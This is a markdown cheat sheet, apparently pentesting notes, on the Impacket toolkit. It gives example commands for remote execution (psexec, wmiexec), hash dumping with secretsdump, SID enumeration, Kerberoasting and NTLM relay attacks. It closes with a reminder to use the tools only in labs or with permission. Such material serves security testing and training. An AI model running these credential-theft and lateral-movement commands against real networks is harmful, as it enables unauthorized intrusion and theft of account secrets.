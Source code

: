 
---
## 📦 Key Tools in Impacket

Here are the most commonly used Impacket scripts:

|Tool|Description|
|---|---|
|`smbclient.py`|SMB client (like a Linux `smbclient`)|
|`secretsdump.py`|Dump hashes (SAM, NTDS) remotely|
|`wmiexec.py`|Remote command execution via WMI|
|`psexec.py`|Execute commands as a service (like PsExec)|
|`smbexec.py`|Command execution via SMB|
|`ntlmrelayx.py`|SMB/HTTP relay attack tool|
|`rpcdump.py`|Dump RPC endpoints|
|`lookupsid.py`|Enumerate SIDs to usernames|
|`ticketer.py`|Create custom Kerberos tickets|
|`getTGT.py`|Request a TGT using a password/hash|
|`getUserSPNs.py`|Extract SPNs for Kerberoasting|

---

## 🔐 Credential Formats

Impacket supports:

- Plaintext: `username:password`
    
- NTLM Hash: `username:HASH:NTHASH`
    
- Kerberos: `-k -no-pass` with ticket from `KRB5CCNAME`
    
- Domain users: `DOMAIN/username`
    

---

## 🧪 Example Usage

### ✅ 1. SMB File Access

```bash
smbclient.py WORKGROUP/user:password@10.10.10.10
```

### ✅ 2. Remote Command Execution (PsExec)

```bash
psexec.py WORKGROUP/admin:password@10.10.10.10
```

### ✅ 3. WMI Execution

```bash
wmiexec.py WORKGROUP/admin:password@10.10.10.10
```

### ✅ 4. Dumping Hashes

```bash
secretsdump.py WORKGROUP/admin:password@10.10.10.10
```

You can also dump from local SAM/SECURITY/NTDS files:

```bash
secretsdump.py -sam SAM -system SYSTEM -security SECURITY LOCAL
```

### ✅ 5. SID Enumeration

```bash
lookupsid.py WORKGROUP/user:password@10.10.10.10
```

### ✅ 6. Kerberoasting (SPNs)

```bash
getUserSPNs.py -request WORKGROUP/user:password
```

---

## 🛡️ NTLM Relay Attacks

Using `ntlmrelayx.py` to capture and relay authentication:

```bash
ntlmrelayx.py -tf targets.txt -smb2support
```

Start responder or mitm6 to capture hashes and relay them with `ntlmrelayx`.

---

## 🎓 Best Use Cases

|Use Case|Tool|
|---|---|
|Hash dumping|`secretsdump.py`|
|Lateral movement|`psexec.py`, `wmiexec.py`|
|SMB enumeration|`smbclient.py`, `lookupsid.py`|
|Relay attacks|`ntlmrelayx.py`|
|Kerberos exploitation|`ticketer.py`, `getUserSPNs.py`|

---

## ⚠️ Tips

- For hash-based auth, use `-hashes <LM>:<NT>` instead of passwords.
    
- Use in isolated labs or with permission only—these tools are **intrusive**.
    
- Use Kerberos ticketing tools with care—clock skew will break auth.
    

